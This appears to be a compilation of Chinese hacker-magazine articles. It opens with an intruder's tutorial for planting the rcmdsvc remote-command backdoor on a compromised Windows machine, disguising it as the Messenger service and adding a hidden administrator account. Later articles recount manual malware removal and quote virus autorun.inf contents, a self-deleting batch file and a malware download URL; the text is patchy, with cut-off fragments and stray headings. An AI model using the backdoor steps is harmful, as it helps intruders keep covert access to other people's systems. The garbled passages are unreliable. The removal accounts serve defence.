先来认识一下 `rcmdsvc.exe`，它是 Windows 2000 Resource Kit 中的一个系统工具，是用来开启 Remote Command Service（远程命令服务）的。这个服务开启的端口是 445，由于与系统服务使用相同的端口，所以比较隐蔽不易被察觉。最关键的是因为它是微软发布的系统服务工具，所以根本不可能有杀毒软件将其认为是病毒木马，这就使得它成为了不少高手所偏爱的后门程序。而它的功能就是远程执行 cmd 命令……

和功能强大的木马相比较，但将其作为一款简便快捷的后门还是很不错的。我将从入侵者的角度来详细讲解一下这个系统服务的具体安装、使用方法以及如何伪装成另外的一个服务，从而让大家在入侵过程中能够灵活运用它。

### 一、rcmdsvc 的安装

获得了一台肉鸡后，我们通常会把进一步入侵所需要的黑客工具上传到肉鸡上并将其隐藏。我们将 `rcmdsvc.exe` 上传到肉鸡的系统目录 system32 下，然后在肉鸡的 cmd 窗口里输入 `rcmdsvc -install`，回车后就会看到 “Remote Command Service installed” 远程命令服务安装成功的提示了，如图1。

再查看一下肉鸡上的服务列表，选择“开始”→“控制面板”→“管理工具”→“服务”，就可以看到我们安装的服务了，如图2。

从图中可以看到该服务已经安装成功但是却没有启动，这就需要启动该服务使其为我们工作了，可以使用系统自带的 `net` 命令来完成。继续在肉鸡的 cmd 窗口里输入 `net start rcmdsvc`，回车后可以在服务列表中看到 Remote Command Service 远程命令服务已经被成功启动（图3）。

### 二、伪装成其它服务

光是将 `rcmdsvc` 安装为 Remote Command Service 远程命令服务还不够隐蔽，因为稍微有些经验的管理员在查看服务列表时就会很容易地发现这个服务。下面我们使用另一个好用的系统工具 `sc.exe`（Service Control），这个工具是在命令行方式下管理系统中的服务的，可以在 Windows 2000 Resource Kit 或者 Windows XP 中找到该工具。我们要做的就是使用 `sc.exe` 把 Remote Command Service 服务伪装成 Messenger 服务，当然也可以将其伪装成其它的服务。

第一步：删除 Messenger 服务  
我们在 cmd 窗口里输入命令 `sc delete Messenger`，就可以将 Messenger 服务删除了。

第二步：把 Remote Command Service 服务改名为 Messenger  
在 cmd 窗口里输入命令 `sc config rcmdsvc DisplayName= Messenger`，就可以将显示的服务名更改为 Messenger 了（图4）。

这时我们在“服务”里就可以看到，Remote Command Service 服务已经变成了 Messenger，不过服务的描述内容却是空的，这也很容易引起别人的怀疑（图5）。

为了使这个服务看起来更“合法”，我们来给它加个描述，在 cmd 窗口里输入命令：`sc description rcmdsvc "发送和接收系统管理员或者警报器服务传递的消息"`。命令执行成功后我们再到服务里就可以看到 `rcmdsvc` 的描述已经加上了 Messenger 的描述信息了。

第三步：启动伪装后的服务  
在 cmd 窗口下使用命令 `net start Messenger` 来重新启动一下服务，命令执行成功后就可以使用 `rcmd` 进行连接了。

### 三、远程连接后门

确定服务在肉鸡上已经安装成功后，就可以使用 Windows 2000 Resource Kit 中的另一个小工具 `rcmd.exe` 来进行远程连接了。打开本地 cmd 窗口，输入命令 `rcmd`，会提示我们输入远程肉鸡的 IP 地址，输入后回车，就会连接成功了（图6）。

我们可以使用 `net user runwind h4ckisbest /add` 和 `net localgroup administrators runwind /add` 两条命令添加一个用户名为 runwind、密码为 h4ckisbest 的管理员用户，这样一来即使肉鸡上的灰鸽子、冰河等木马被查杀，我们也可以使用这个后门来连接肉鸡了。给肉鸡上个双保险，何乐而不为呢？

## 防范U盘病毒，我有小妙招！

博月寒涛

今天一MM拿一U盘到我的电脑上来拷电影，因为她们宿舍的局域网老是不定时维护……鼠标右键单击U盘图标看见了“AUTO”，我确定该U盘可能有最近风头正劲的 sxs.exe 病毒。

当我告诉MM她的U盘里有病毒的时候，MM是一脸的无辜和茫然……那如何手动杀毒的呢！

使用 Ctrl+Alt+Del 键调出任务管理器，在进程中关闭 sovhost.exe，然后到 `C:\Windows\System32` 目录下删除 sovhost.exe 文件，再删除各个磁盘中的 sxs.exe 和 autorun.inf 文件，最后新建一个 txt 文件，写入如下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL]
"CheckedValue"=dword:00000001
```

将该 txt 文件改为 reg 文件（即把 txt 扩展名改为 .reg 扩展名），双击该文件导入注册表（显示隐藏文件）。病毒就这样被简单杀完了。

后来考虑到U盘频繁使用，如何让其免疫？可以通过 autorun.inf 思路，做一个批处理，建立 `umy.txt` 文件并写入内容：

```bat
attrib \autorun.inf -a -h -s
del \autorun.inf
md \autorun.inf
start ..
exit
```

然后把 `umy.txt` 改为 `umy.bat`，将该文件做成快捷方式放在桌面，以后打开U盘前先双击运行即可。

这个批处理的杀/防U盘病毒原理是在命令行方式下创建特殊文件夹（如 a.exe），使同名正常文件无法覆盖创建，从而阻止病毒通过 autorun.inf 和 sxs.exe、rose.exe 等已知文件名落地执行。

（本文所涉及到的批处理和注册表文件已收录到光盘中）

## 剿灭X38.com

浪迹涯天

前两天在X的论坛上看到有人说IE被 X38.com 劫持。此前 my123.com、7939.com、3558.com 等流氓网站曾经很猖獗，如今又冒出 X38.com。

于是我在四大杀毒软件保护下访问该站，刚进入就被报警拦截，提示有恶意程序要劫持IE，果然不愧是“流氓”。

## 毒殇

为了彻底搞清这个网站上的病毒，我关闭了所有杀毒软件和防火墙，并停用了瑞星卡卡对IE的监控。再次进入该网站后，桌面出现两个 html 文件，一个是黄色录像链接，一个是免费图铃。随后主页被改成了“www.x38.cn”，卡巴斯基持续报警，出现 43843092.exe、count.st5、spupdsvc.exe、jdsthul.exe 等可疑进程，且不断复制增多。

我尝试删除这些文件但无效，还发现“winlogon.exe”被列入封杀列表。打开任务管理器后，卡巴将部分进程杀死，系统随即重启。重启后又提示 dll 文件被破坏，瑞星也被恶意卸载，只剩 NOD 存在但查不出病毒。

虽然杀软被干扰，我仍尝试用 CMD 配合任务管理器清毒。在进程中找到 43843092.exe 与 jdsthul.exe 并尝试结束，随后又使用 `taskkill /f /t jdsthul.exe`，结果电脑再次重启。

电脑连续重启后，我在安全模式进入 `C:\Windows\System32`，按“修改时间”排序，发现一批新建可疑文件（多位于 PreInstall 相关位置）。病毒还伪造了 `winlogon.exe` 并放入 `C:\Windows\System32\Media` 目录。分析后判断其安装流程为：释放并启动多个组件（如 spupdsvc.exe、count.st5、BDwin.exe、CEC4F335.exe、npwmsdrm.dll、pnx5016.dll、rmoc3260.dll、wnaspi32.dll、11650667.exe、jdsthul.exe），同时生成 html 文件并守护运行。

该病毒会尝试结束系统中的 `winlogon.exe` 相关进程；当唯一实例被结束时系统会瞬间重启。文中还提到“BTDwin.exe”可能是守护进程自动生成的副本，用于维持恶意文件存活。

既然病毒的整个工作原理了解得差不多了，彻底清除它们也就不是什么难事了。首先把以上的文件统统删除，为了清除得更彻底，我选择使用了瑞星的文件粉碎器。把病毒文件逐一添加到里面然后一起粉碎。再查看 `C:\Windows\C:\Documents and Settings\Administrator\Local Settings\Temp\` 目录，已经没有病毒的身影了；查看 `C:\Documents and Settings\LocalService\Temp\` 目录却发现 `CEC4E335.exe`、`43843092.exe` 两个文件，把它们删除后运行瑞星卡卡，检测系统启动时加载的服务。看到了吧，把这两个 `CEC4E335.exe`、`43843092.exe` 的启动项清除，病毒就不会自动发作了。为了保险，我又顺便看了一下驱动，又发现两个不明目标，删掉之后重启系统到正常模式，一切OK。现在的病毒程序是越来越猖獗了，使用的技术也越来越复杂，所以奉劝大家上网时一定要小心，不安全的网站最好莫去，毕竟安全第一嘛！

## SqQqobber 病毒迎招

当今的网络，是木马、病毒与流氓软件横行的时代。这不，刚安装好操作系统连上网络，不一会儿就莫名其妙地发现防病毒软件的实时监控功能变成了红色禁用图标。打开文件监控、注册表监控、网页监控等，几乎都是空空如也。看来病毒确实找上门了。

我拿出菜鸟利器 `icesword（冰刃）` 开始查看系统进程，看起来并没有特别异常，但出现了一个无后缀名的 `laoniu` 和一个 `cmd` 进程。随后定位到 `C:\WINDOWS\system`，直接查看 `laoniu`。看到文件里的 `MZ` 和 `PE` 结构后确认这是可执行文件，删除后问题仍在，说明还有隐藏加载链路。

随后继续排查模块，发现在 `explorer.exe` 中有可疑 `3c48370c.dll`，并伴随大量 `QQrobber` 相关进程。清理时提示需重启，重启后仍有残留。最终通过在 `icesword` 中结束相关进程并卸载可疑模块，再配合专用小工具 `dllkill2.exe` 处理，才逐步恢复正常。

我记下 `laoniu` 的路径并结束相关进程，再次进入系统目录定位文件；虽然删除了表层文件，但监控依旧无法开启，说明病毒还通过 DLL 注入等方式维持驻留。此类木马为隐藏自身往往采用更复杂的加载机制，需要结合进程、模块、启动项和驱动多点清除。

## 毒瘤

3c48370c.dll 就可以清除所有进程里的 3c48370c.dll 了（根据不同情况输入不同参数）。

另外 QQmusic.exe、QQexternal.exe 等可能随 QQ 一起启动的文件也被感染，新增了文件节 ALA。解决方法是将该目录全部替换为干净的 QQ 程序（或删除 QQ 目录下所有文件后重装）。

现在我的卡巴斯基可以打开了，发现了病毒，但提示需重启后删除。重启后依然异常，打开 QQ 时不断弹出报警窗口，最终判断病毒会随 QQ 一起启动并阻止杀软加载。

我首先想到 TIMPlatform.exe，这个程序总是随着 QQ 一起启动。用 PEiD 查看后发现文件多了一个区段 ALA，并在 QQ 目录发现 3C48370C.EXE 等可疑文件。

对我而言，这个病毒较顽固，会破坏 QQ 密码锁并伪装成正常模块。逆向分析发现其会通过邮件发送截获的帐号密码。后续通过文件监控继续排查，网络环境下应掌握基本手工杀毒技巧。

## 中了“木马”还是“反P爱咖”

每次我照着黑客X档案上介绍的方法在网上搜索漏洞，总能找到很多教程与经验帖。想起之前一次按杂志思路寻找测试目标，结果意外中木马。

我点击某链接后，弹窗长时间无响应，任务栏显示后台运行。意识到异常时已来不及，木马可能已安装。根据经验，遇到木马应冷静分析、顺线索排查并清理浏览器临时目录。

### 毒龙

选择“工具”→“Internet 选项”→“常规”，选择“Internet 临时文件”中的“设置”，然后在“设置”菜单中选择“查看文件”，IE 的临时文件夹就会打开。果然不出所料，狐狸尾巴马上就露出来了，名字竟然是 wm.exe，后面显示的“http://www.jg666.net/wm/wm.exe”也清楚地告诉了我们的地址。

网马是找到了，但它到底在我们的电脑里做了些什么，我们还不清楚。使用系统配置实用程序查看启动项和系统服务，也没有发现可疑项。把 wm.exe 从 IE 临时文件夹下复制出来，使用 PEiD 查看，发现程序使用 Borland Delphi 6.0-7.0 编写，没有加壳保护。

我使用 UE 以文本方式打开了 wm.exe，里面的英文字符大部分会正常显示。经过查找，发现两个突破点：一处是导入注册表文件 kao.reg 的内容；另一处可能存在文件 `C:\Program Files\Internet Explorer\loadie.exe`。随后在资源管理器中查找，确实发现了相关文件与启动项线索。

在 `C:\Program Files\Internet Explorer` 目录下，loadie.exe 文件存在，且大小与 wm.exe 都是 25K。通过文件比较可确定它们是同一文件。继续排查时又发现两个可疑进程，指向 `C:\Program Files\Common Files`，结束后其不再启动。

查看批处理文件，其内容为：

```bat
:try
del "C:\Program Files\Common Files\mhl.exe"
if exist "C:\Program Files\Common Files\mhl.exe" goto try
del "C:\Program Files\Common Files\ssa.bat"
cls
```

这是 mhl.exe 程序用来完成自我销毁的批处理文件。继续查看系统启动项，发现里边又多了两个可疑分子（如图7），对 rundll32.exe 的判断仍需结合路径与上下文。

### 毒魔

这两个文件的路径都不对，一下子就暴露了自己的身份，因为正常的 rundll32.exe 文件应该在 `/system32` 以及 `/system32/dllcache` 目录下。再次查看 IE 缓存，发现里面也多了 5 个与图6中相同的文件。

可以肯定木马不是在一个目录下堆放的，要是这样毫无目的地徒手查找，想尽快把病毒全部找出来几乎是不可能的，于是我考虑使用 Windows 自带的搜索功能来进行查找。这种方法虽然显得有点笨，但效果明显。只要知道木马的启动时间，系统就会（其它盘也可能有）搜索指定时间段的所有文件；然后按时间进行排序，病毒文件基本上就会摆在我们面前。

在查看搜索结果前，最好事先通过其它途径（可疑进程、系统服务或启动项）得到尽可能多的病毒文件路径及文件名，查看时就找这些文件及附近的文件；因为木马和病毒一般都很小，传播很快，因此文件的创建几乎是同时完成的，所以排序时文件会排在一起。查看结果时要多留意隐藏、系统、只读属性的文件（首先要将“工具”→“文件夹选项”→“查看”中的“隐藏受保护的操作系统文件”前的勾去掉，并将“显示所有文件及文件夹”选中）。

我搜索后的结果排序后如图9所示，其中有许多是事先通过可疑进程和启动项找到的。图9中我标记出的有两部分，下边那部分可能与 wm.exe 文件有关，而上面那部分从名字和图标就能看出与图6中的那5个木马有关了。

至此，网马的整个传播过程已经弄清楚了：当我访问图1中搜索到的网页时，网页就会下载并运行网马 wm.exe 程序。wm.exe 是一个下载者，它打开一个隐藏的 IE 访问图10所示的网站，再下载运行种马者设置好的5个木马。

经过我的仔细分析与测试，这些木马大部分都被验证了正身。wm.exe 确实为下载者，能够同时下载5个木马。在我的黑客兵器库的下载者类中换个测试了半天，发现只有“英雄版超级下载者”满足上述条件，而且它生成的服务器程序使用 PEiD 查壳，也是由 Borland Delphi 6.0-7.0 编写，因此可以肯定就是它无疑了。

不过种马者并不是很专业，一是把所有木马全部下载到同一个目录下再运行，另一点是木马的名字取得一点儿也不专业，也许是为了方便自己好记吧。下载的5个木马名字分别为 cql.cxc、jhl.cxc、mhl.exe、qql.exe、zl.cxc，根据名字就可以轻易判断出它们分别是传奇木马、热血江湖木马、梦幻西游木马、QQ盗号木马、征途游戏木马。

知道了木马的传播方式及所中的木马，在网上下载特定的木马专杀工具就能够轻松搞定了。但使用专杀工具可不是我们菜鸟的最好选择，而且也要扫描很长时间才可能杀掉，还是使用手动清除的方法比较快。我们的方法是：先大概记住图9中所标记的那些文件名，对于 exe 程序，可以直接使用冰刃结束掉相关进程；对于 dll 文件，可以使用 procexp 搜索其注入的进程，然后使用冰刃强行卸载掉 dll 文件，最后将它们通通从硬盘中删除。

最后就是注册表，在注册表中将含有这些名字的相关键值也通通删除，做完后重启电脑就一切OK了。其实木马、病毒并不可怕，只要有耐心再加上细心，就一定能够战胜它们，人定胜天嘛！

> （本文所涉及到的冰刃、procexp 和文中涉及到的病毒文件已收录到光盘中）

## 让IE流氓——不再有rootkit撑腰

人浪迹涯天

这天做完事情后我像往常一样准备到X的论坛去灌水，可刚刚打开IE，就发现自己的首页被莫名其妙地改成了 www.3722.com，而且电脑也马上卡得要死，还没等到我做别的，电脑就彻底挂掉了。

重启系统后我先没有拨号联网，省得电脑再挂掉了。普通的流氓软件也就是改个主页什么的，可这个流氓软件倒像个“幽灵病毒”，不知道它在我的后台做了些什么。我电脑的硬件配置还是比较高的，奔4 2.8E 的 CPU，512M 双通道的 DDR 内存，就算是玩一些大型的3D游戏也不会卡死。我估计有可能是流氓软件调用了 DoS（拒绝服务）程序在攻击别人。

为了验证自己的想法是否正确，我打开了任务管理器，在不联网的情况下又一次打开了IE，结果 CPU 的占用率片刻间就达到100%，又一次卡死了。前两天在金山的官方网站上看到一种叫做“洗水”的病毒，情况现在很类似，现在我的电脑也会自动攻击别人了。不过，这都不关我的事呀，都是病毒害的，我可是好菜鸟啊！

手工杀毒的第一步就是找到病毒的进程，然后将其结束掉。使用 Ctrl+Alt+Del 调出任务管理器查看其中的进程，没有发现异常进程。看样子病毒要么是隐藏了进程，要么就是没有通过普通的启动项来引导。既然没有联网时打开IE都会这样，我大致判断病毒是在IE的 BHO 对象上面作了手脚，能够控制 BHO 的无疑就是服务级和驱动级两类了，所以不忙着找病毒源文件，先来查看一下系统的服务。

在“开始”→“运行”栏里输入 services.msc 来查看系统服务，结果发现了一个“prttems”服务，显示名称是“Windows Gateway”。可笑的是它的描述：“防火墙保护机制，为Internet连接共享和Windows防火墙提供高效的保护支持。无法终止此服务”。微软什么时候有过这种服务描述？一般微软重要服务的最后一句都是“任何依赖此服务的服务将终止启动”，而这个服务的最后一句描述却是“无法终止”。那就让我来试试看，结果该服务被轻易地停止并禁用了。

为了更好地找到病毒的根源，我在“运行”栏中输入 regedit 打开了注册表，然后展开注册表到 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services]` 下。先别忙着删除，要知道“禁用”和“删除”没有什么区别，如果你把它删除，那么电脑重启后要是出错就不好办了，而禁用服务的话还可以挽回。另外注册表里的这些也是病毒根源的线索，要是删除了线索也就断掉了。

我们来看看它在这个项下面写了什么东西吧，运气好的说不定会有什么收获。结果我发现病毒在“`%windir%\vsystemroot%\system32\`”目录下写入了 ldwjc.dll 这个链接库文件。对于注册表的写入内容大家详见 1.reg（已收录于光盘中）。

打开资源管理器，定位到 system32 文件夹下，右键选择“按时间”排列图标后却没有在文件夹的最后看到 ldwjc.dll 这个文件。本打算将同一时间创建的病毒文件一网打尽，结果却泡汤了。我重新开始一点一点地查找，终于找到了这个文件，打开该文件的属性后，却发现文件的创建时间和修改时间都是 2004年8月17号12点整。我又查看系统自身的 alg.exe 文件，结果其时间与 ldwjc.dll 的一样。究竟 ldwjc.dll 这个文件是系统本身的，还是病毒把自己的创建时间修改成系统文件的创建时间，这使我陷入了困惑之中，我更加不敢轻易删除这个文件了。

## 毒瘤

全部安装后再作备份，所以对比一下 Ghost 文件中的系统驱动就会找到突破口了。首先使用 Ghost Explorer 打开以前备份的系统，按照如图5所示的方法将其导出，然后再打开 `%windir%\system32\drivers` 目录，按时间排列后到文件夹的最后进行查找，发现了病毒的驱动文件 nxsIos32.sys，如图6。

我在注册表中查找 nxsIos32.sys 这个驱动文件名（图7），然后删除掉，键值内容详见 2.reg（已收录于光盘中）。无意间又发现该键值下还有一个 prtterns 项，键值指向的文件与那个 prtterns 服务一样，所以直接使用右键单击导出后将其删掉（注册表文件详见 3.reg，删除注册表前记住要备份哟）。

根据刚才那个 prtterns 服务的创建时间，我猜想在驱动里会不会也有相同时间的呢？经过对比后发现驱动文件夹里的文件创建时间没有 2004 年 8 月 17 号的，大部分都是 2005 年 12 月 7 号创建的。我恍然大悟，原以为我的系统是使用 Ghost 版的 XP 安装的，所以驱动安装的时候是由 driv.cab 自动创建的，因此时间会是发布该系统当前的创建时间，而刚才 system32 目录里的文件是发布者安装系统时创建的，所以时间会是他安装系统的时间。那么病毒也就是根据这个时间来创建文件，所以生成的病毒文件要么是当前创建文件的时间，要么就是系统安装（发布 Ghost XP 安装系统）时的时间。既然文件夹中的文件都是 2005 年 12 月 7 号创建的，那么 2004 年 8 月 17 号的所有文件中肯定有一部分就是病毒文件了。只要看看每一个文件的出品信息就可以快速找到文件了（有时候找不能依赖这些，因为病毒也可以伪造这些信息）；经过一段时间的查找终于找到了一个文件 vrdnj.sys，属性如图8所示，没有版本和公司信息，驱动文件怎么会没有这些内容呢？很是可疑，准备将其复制出来时却提示错误了。由于这是驱动文件，所以不敢掉以轻心，先查找注册表键值（图9），然后导出备份，再进行删除（注册表文件详见 4.reg）。按 F3 继续查找，在注册表的 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\vrdnj` 处又找到了，依然是备份后再进行删除（图10）。

到此我们的工作就算是完成一半了，接下来的就必须要从安全模式着手了。重启电脑切换到安全模式，首先关闭掉系统还原，这非常重要，因为好多病毒都会在 System Volume Information 文件夹里写入病毒源文件……继续在注册表中进行查找，发现了关于 vrdnj.sys 文件的项（图11），依然选择删除，结果出现了“删除项时出错”的提示（图12）。原来是权限的问题，这个病毒真够变态的，为这个项赋上 Administrator 权限后，成功删除……

为了保险起见，我又对上述的三个文件在注册表中进行了搜索，没有任何项和键值存在了，接着我把临时文件夹的文件清除掉……我打开看了一下，果然发现两个比较可疑的程序，ocmor.dll 和 tmpdrv235.exe（图13）……又发现一个 advport.dll 文件没有出品公司，比较可疑，也将其复制出来然后删除了（图14）。

最后打开驱动文件夹打算删除顽固的 vrdnj.sys 文件，但令我郁闷的还是不行。于是又一次打开注册表查找 vrdnj，结果该驱动的启动项都回来了……终于明白了，驱动这个东西是加载到内存的，关机时内存中的驱动文件会写回到源文件。那么，就有两种方法可以参考使用，一种是使用冰刃释放内存，另一种就是让驱动文件不在关机的时候进行设置检查。我选择了后一种，使用“快速关机”的方法就可以实现（在运行中输入 `shutdown -s`）。

重启系统到正常模式，拨号上网后没有发生任何异常，将备份出来的文件在百度上搜索，只有两个文件可以搜索出来，原来 ocmor.dll 和 advport.dll 早已经臭名昭著了。使用卡巴、瑞星、金山、NOD32、瑞星卡卡对 C 盘和进程轮流检测了一番，都没有发现异样，终于可以收工……（本文所涉及到的注册表文件已收录到光盘中）

## 清除恶狗

这天开着我的爱机在网上溜达了一会儿，当我重新打开浏览器的时候突然发现本来设置成空白的主页变成了 `http://www.7939.com`，这是一个导航网站，如图1。我打开 IE 的属性将默认主页重新改成了空白，却发现仍旧是自动登录那个网站，看来是遇到了“流氓”。

直接使用木马克星、雅虎助手等工具进行清除，但是却都没有用，都不行，看来又得自己动手了。点击“开始→运行”，在运行栏中输入 regedit 打开注册表，找到如下位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Main`，删除“Default_Page_URL”和“Start Page”。我们再来到 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 下，这里有个键值“Start_Page”，如图2，这个“Start_Page”字符串是不能删除的，否则 IE 将不能运行，但是我们可以修改其首页的地址。修改好后，我打开 IE 浏览器却发现仍然不行，好郁闷呀！

无奈中我重新打开注册表 regedit，却发现先前我更改的地方又被改回来了。对了，一定是有别的程序在监控着。按 Ctrl + Alt + Del 调出任务管理器，在进程中我发现了 Realplayer.exe，猜中了，我没有打开 REAL 播放器啊，直接结束掉它的进程，然后重复上面修改注册表的操作，还是无效！在系统的启动项里也发现了 Realplayer，如图3。

更讨厌的是我把它设置为不开机启动后，它却又自己给改了回去。我看了看任务管理器里边也没有 Realplayer.exe 的进程，真是奇怪呀！我们无法修改注册表也无法修改系统启动项（只针对它），因此我们可以得出结论，Realplayer.exe 或它的成员仍然在后台运行着。

我重新在注册表中检查注册表的启动项，发现它是在 `%windir%\system32\` 目录下的。接下来就是到 system32 目录下去查找这个文件了。在查找前我们先把“文件夹选项”中的“查看”设置成“显示所有文件和文件夹”，可是我却在 system32 目录下没有发现该文件，难道是注册表出错了？还是幸运地被我的卡巴给查杀了？

```cmd
DIR /A REAL*.*
del Realplayer.exe
attrib -h -s -r Realplayer.exe
```

我打开 CMD 命令提示符，输入 `DIR /A REAL*.*`，让系统从当前目录开始查找所有以前四个字母 real 开头的文件，记得千万不要漏掉参数“A”，果然查找到了。我直接使用 `del Realplayer.exe` 尝试直接删除该文件，失败了，然后我使用 `attrib -h -s -r Realplayer.exe` 命令取消掉 Realplayer.exe 文件的隐藏、系统和只读属性，然后重新使用 del 命令来删除，可还是不行，提示找不到文件，如图4。

后来我才明白先前我们之所以无法找到这个文件的原因是因为它更改了注册表，对自己需要的键值进行了保护。注意，仅仅是对自己需要的键值进行了保护。所以开始时我明明可以修改注册表的一些地方，但同样又有些地方却不行，我还以为是系统出了什么问题呢。

看来最大的问题还是因为 Realplayer.exe 在运行着，但是我使用冰刃也没有查看到该程序（有可能是伪装成了系统进程），好了，我们来进入安全模式搞定它。

进入安全模式后系统一切正常，我们重新来修改注册表。因为它修改了文件夹选项里查看文件的设置，所以我们始终不能看到隐藏文件。现在就来改正过来。

在注册表中具体的位置为：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\` 下有两个项“NOHIDDEN”和“SHOWALL”，展开“SHOWALL”，打开“CheckedValue”然后将 0 值改为 1，如图5，关闭注册表，再到 system32 目录下进行查找，终于看到“可爱”的它了，如图6。

在安全模式下我把系统启动项也进行了修改，然后又重新在 IE 的属性里更改 IE 的默认主页就行了。费了半天的工夫终于搞定了，不禁感慨现在的病毒木马和恶意程序是越来越先进啊。后来我还发现这个系统和我的灰鸽子一样，都要改我的 boot.ini 文件，好在我以前备份过，我可是双系统啊。

（文章中涉及到的恶意程序已经收录在光盘中，仅供有兴趣的朋友自行研究，请勿运行）

## 巧用冰刀清病毒

同事的电脑感染了病毒，重新安装系统后，安装了我们公司自己的一些软件，还没有打开 IE 浏览网站，就又发现了病毒。我们细检查了一番，我们公司的软件确信是没有病毒的。我打开“我的电脑”，单击菜单栏“工具”→“文件夹选项”→“查看”，取消掉“隐藏受保护的操作系统文件”和“隐藏已知文件类型的扩展名”前面的勾，选中“显示所有文件和文件夹”，再打开 D 盘，发现多了三个文件：autorun.inf、ghost.exe 和 go.exe，如图1。

我查看其它磁盘也都有这样的文件，看来一定是这个 ghost.exe 搞的鬼。另外，如果我们使用鼠标右键单击 D 盘，也会发现多出了个“自动播放”选项，双击的话就是执行了 ghost.exe，如果直接使用右键单击，然后“打开”的话就不会运行病毒文件。不过，要是靠这种方法来防范运行该病毒文件的话太麻烦了，一种简单有效的方法就是禁止自动播放。

其中 autorun.inf 文件内容为：

```ini
[AutoRun]
OPEN=ghost.exe
shellexecute=ghost.exe
shell\打开(&O)\command=ghost.exe
```

## 毒殇

“运行”栏中输入 **gpedit.msc**，打开组策略，点击“计算机配置”→“管理模板”→“系统”，在右边的窗口中找到“关闭自动播放”，启用即可，如图2。下面来清除掉这个病毒，我们使用冰刃，先删除掉 c、d、e（你有几个盘就删几个盘）的 autorun.inf、ghost.exe 和 go.exe 这三个文件，然后到 `C:\WINDOWS` 目录，按文件修改时间来排序，发现了可疑文件 wsvbs.exe，在进程中结束掉它，然后删除该文件。找到最近修改过的目录，一排查，在 system 目录下发现了许多可疑文件，如图3，特别是 conime.exe 这个文件，出现在 system32 目录下是正常的，但出现在其它目录下就肯定不对了。

在 system32 目录下发现了 wsvbs.dll、windhcp.ocx，但是直接删除不了，应该是注入到了其它进程中，一般是 Explorer.exe 这个进程。使用冰刃右键单击 Explorer.exe，选择“模块信息”，找到里面的 wsvbs.dll 和 windhcp.ocx，点击右面的“卸除”，然后把它们删除掉。不过 windhcp.ocx 仍然删除不掉，原来是注册成了系统服务。

```cmd
net stop windhcpsvc
```

在 cmd 命令提示符中输入 `net stop windhcpsvc` 来停止该服务，然后运行 regedit 启动注册表，在注册表中删除服务项：

`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDHCPSvc]`

最后再删除掉 windhcp.ocx 文件。在冰刃的进程管理中我还发现有其它的非系统进程，路径是 `C:\Documents and Settings\Administrator\Local Settings\Temp`，如图4、图5。把可疑的进程全结束掉，然后清空整个 Temp 文件夹，最后点“开始”→“运行”，输入 msconfig，把启动项目里面的勾全部取消掉，重启电脑，病毒就全部被清除了。

## 菜鸟潜伏的手动杀毒经历

平凡

这天碰到了一件奇怪的事情，上午还用得好好的电脑，下午再用时就发现 QQ 的键盘加密锁上有一个大大的红叉。第一感觉就是中木马了。后来仔细一看，发现瑞星防火墙没有启动，桌面上的瑞星防火墙图标也显示不正常（图1），不过同在桌面上的北信源杀毒软件却好好的，也没有提示有木马。小小木马难怕谁啊，我拿出冰刃 IceSword 开始查看系统进程（图2），病毒的尾巴马上就露出来了，多了一个“smss.exe”进程，名字虽然一样，但是路径却不一样（微软自带的那个任务管理器是无法直接显示路径的）。这点可骗不过我们小黑的法眼。点击鼠标右键，结束掉“Windows”目录下的那个“smss.exe”进程，再删除相应目录下的文件，然后重新安装 QQ 和瑞星防火墙，再运行 QQ 键盘加密锁就没有红叉了，防火墙也能启动了，Windows 目录下的“smss.exe”进程也没有再次出现。

## 毒瘤

这么轻而易举地就清除木马了，可以继续玩啦。可惜好景不长，那些症状又重新出现了，而且还出现了一个错误提示（图3），上网也不正常了。我也没有安装什么其它程序啊，看来一定是还有其它可以启动木马的保护程序。先把那该死的进程结束掉再说，绝大多数的木马病毒都会藏身在系统目录下，先去看看。真是不看不知道，一看吓一跳，系统目录下都成了毒窝了（图4）。

看到这么多的病毒，还真不知道该怎么下手了，郁闷啊，直接删除肯定是不行的。我拿鼠标在它们上面晃呀晃，突然发现这些病毒都是 47.5KB，而且都是 exe 或 com 类型的，看来都是同一个文件（使用 UE 的比较功能进行二进制比较，也证明我的想法是正确的），只是文件名不一样而已。有办法了，使用系统自带的搜索功能，文件名处填“*.exe;*.com”，大小设置成至少 47KB，位置指定为“windows”目录，将文件类型下面的前三个勾选中（图5），搜索完毕后再将结果按大小排序，很快这些病毒就全部露了出来（图6），都是一些很熟悉的名字，仔细看就会发现它们与正常的程序都有个别字母不同或类型不同。先使用 WINRAR 把它们全部压缩保存起来，留待以后研究使用，然后将这些病毒文件全部删除。

本以为这样就可以了，没想到在 D 盘下还有一个“autorun.inf”和“command.com”文件，其中 autorun.inf 里面的 OPEN 语句指向的就是 command.com 文件，大小也是 47.5KB，看来是同一个病毒。连 D 盘都有，那其它盘一定也都有，来找找看，还是使用 Windows 的搜索功能，在上边的基础上把搜索条件设得更宽一点，将文件名设置成“*”，表示搜索所有类型的文件，搜索位置设置为“我的电脑”用于搜索整个硬盘，

## 毒瘤

其它的就不用改了。将搜索结果排序，病毒便全部摆在我们面前了（图7）。这病毒也太嚣张了，竟然将自身复制了10个，不仅有 exe 和 com 类型的，还有 pif 类型的；不仅系统目录下有，在其它多个目录下也都有。将一切删掉后又重新出现了，看来那个 smss.exe 进程又出来了。现在有头绪了，先将那个进程结束掉，再将上述搜索到的那些病毒文件 Shift+Del 删除掉，最后再将它唯一的一个启动项删除掉。做完这些都凌晨两点了，不管了，先睡觉。但直觉告诉我，这个病毒一定没这么简单，看来战争还未结束，明天继续。

果然不出我所料，第二天刚开机还好好的，但双击 QQ 后，它马上就自动关闭，随后那些症状又幽灵般地出现了。我使用冰刃观察进程，发现在运行一些程序后病毒就会再次出现。对此，实有点无计可施了。就连 QQ 上请教了 X 钱，他提示我说会不会是 EXE 文件关联方面的原因。

